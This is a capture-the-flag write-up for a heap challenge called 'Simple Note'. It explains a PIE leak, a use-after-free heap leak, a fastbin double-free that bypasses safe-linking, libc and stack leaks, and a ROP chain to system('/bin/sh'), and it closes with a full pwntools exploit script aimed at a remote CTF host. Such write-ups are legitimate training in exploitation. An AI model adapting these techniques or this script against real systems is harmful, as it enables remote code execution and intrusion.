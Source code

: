 # Simple Note

author: kuvee
points: 491

the checksec output:
```
  Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
```

On inspecting the decompilation, we notice:
- We have Use after Free (UAF)
- The pointers are being stored in global array, and we can only have 6 allocations
- allocation is done using calloc() instead of main(), why does this matter? calloc zeroes out space on allocation and the algorithm slightly differs from malloc, so it will be more oriented toward fast-bin attack
- There's a peculiar function on input 9999, which gives a very nice leak
```
Note: something very interesting to see is, if your allocation bin's size has `IS_MMAPED` flag set, then calloc wont zero out its region because it assumes it's already zero-ed out because of mmap
```
```c
unsigned __int64 sub_193C()
{
  void *v1; // [rsp+8h] [rbp-68h] BYREF
  char s[88]; // [rsp+10h] [rbp-60h] BYREF
  unsigned __int64 v3; // [rsp+68h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v1 = &unk_4060;
  puts("enter your name: ");
  fgets(s, 80, stdin);
  puts("enter your age: ");
  __isoc99_scanf("%ld", &v1);
  getchar();
  printf("your age: %ld and name: %s\n", v1, s);
  puts("but ... why you here???");
  return v3 - __readfsqword(0x28u);
}
```

When we are doing scanf on `v1` there's no check if it's being taken properly, so if you just give any nonsensical input, it will print the address of `v1` in the printf line which just happens to be pointer in bss area, awesome.

The main idea behind the exploitation is to first get a heap leak to defeat [safe-link](https://ir0nstone.gitbook.io/notes/binexp/heap/safe-linking) and perform some attack on fastbins to make it return arbitrary pointer,
we want it to be in the BSS area where the array storing the pointers is present, there we can write our own pointers and read/write.

So lets start

- get the pie leak
    ```python
        r.sendlineafter(b'>',b'9999')
        r.sendlineafter(b':',b'a')
        r.sendlineafter(b':',b'aaaaaa')
        r.recvuntil(b'age:')
        exe.address = int(r.recvline().split(b" ")[1].decode())-0x4060
        print(hex(exe.address))
    ```

- get the heap leak
    ```python
        malloc(0x43,b'aaaa')
        free(0)
        heap_leek = unpack(show(0),'all')
    ```
- fill up the tcache without allocating them on pointer array
    ```python
    for i in range(7):
            malloc(0x33,b'')
    ```
    this works because on invalid input like just a '\n' it frees the area and makes the pointer in pointer array NULL


- Now we perform double-free on the fastbin and then change the next pointer to get a controlled pointer in bss area (similar to tcache poinsoning)
    ```python
    malloc(0x33,b'a')
    malloc(0x33,b'b')
    malloc(0x33,b'a')
    free(1)
    free(2)
    free(1)
    st  = (exe.address+0x4080)^(heap_leek)
    edit(1,p64(st))
    malloc(0x33,b'a')
    malloc(0x33,b'a')
    ```
    read this for the [fastbin double free](https://github.com/shellphish/how2heap/blob/master/glibc_2.39/fastbin_dup.c)
    
    It's important to note that my first alloc was 0x43, which is the size that gets stored in the array, this will be acting as the fake fastbin available for use, it's `IS_MMAPED` and `PREV_INUSE` flag will be set due 0x3 (0x2|0x1)
    the allocations after that are 0x33, because allocation algorithm will perform a check on the fastbin size to detect for corruption, 0x33 allocation would go to a bin with 0x40 as size.

- Now we have control over the pointer array with our latest allocation! i'll be leaking the libc and stack address now, by making use of stdout/stdin/stderror file struct pointer in BSS area
    ```python
    edit(5,p64(exe.address+0x4020))
    libc.address = unpack(show(0),'all')-0x2045c0
    edit(5,p64(libc.sym['environ']))
    stack = unpack(show(0),'all')
    print(hex(libc.address))
    print(hex(stack))
    gdb.attach(r)
    rip = stack-0x150
    edit(5,p64(rip))
    ```
    the `environ` symbol in libc contains stack addresses, and `exe.address+0x4020` had one of the file struct pointers in libc

- Now i just do rop
    ```python
    rip = stack-0x150
    edit(5,p64(rip))
    pop_rdi = p64(libc.address+0x10f75b)
    ret = p64(libc.address+0x10f75b+1)
    rop = pop_rdi+p64(next(libc.search(b'/bin/sh'))) + ret+p64(libc.sym.system)
    edit(0,rop)
    ```

and finally get the shell


The solve script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")

context.binary = exe
context.terminal =['alacritty','-e','bash','-c']


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("pwn.blitzhack.xyz",4566)
        context.noptrace=True

    return r


def main():
    r = conn()

    # good luck pwning :)
    r.sendlineafter(b'>',b'9999')
    r.sendlineafter(b':',b'a')
    r.sendlineafter(b':',b'aaaaaa')
    r.recvuntil(b'age:')
    exe.address = int(r.recvline().split(b" ")[1].decode())-0x4060

    print(hex(exe.address))
    def malloc(sz,pl):
        r.sendlineafter(b'>',b'1')
        r.sendlineafter(b':',str(sz).encode())
        r.sendlineafter(b':',pl)

    def edit(idx,pl):
        r.sendlineafter(b'>',b'2')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'2')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())
        r.sendlineafter(b':',pl)

    def show(idx):
        r.sendlineafter(b'>',b'3')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'3')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())
        r.recvuntil(b': "')
        return r.recvline().strip()[:-1]

    def free(idx):
        r.sendlineafter(b'>',b'4')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'4')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())

    malloc(0x43,b'aaaa')
    free(0)
    heap_leek = unpack(show(0),'all')
    for i in range(7):
        malloc(0x33,b'')
    print(hex(heap_leek<<12))
    malloc(0x33,b'a')
    malloc(0x33,b'b')
    malloc(0x33,b'a')
    free(1)
    free(2)
    free(1)
    st  = (exe.address+0x4080)^(heap_leek)
    edit(1,p64(st))
    malloc(0x33,b'a')
    malloc(0x33,b'a')

    edit(5,p64(exe.address+0x4020))
    libc.address = unpack(show(0),'all')-0x2045c0
    edit(5,p64(libc.sym['environ']))
    stack = unpack(show(0),'all')
    print(hex(libc.address))
    print(hex(stack))
    gdb.attach(r)
    rip = stack-0x150
    edit(5,p64(rip))
    pop_rdi = p64(libc.address+0x10f75b)
    ret = p64(libc.address+0x10f75b+1)
    rop = pop_rdi+p64(next(libc.search(b'/bin/sh'))) + ret+p64(libc.sym.system)
    edit(0,rop)
    r.interactive()


if __name__ == "__main__":
    main()
```

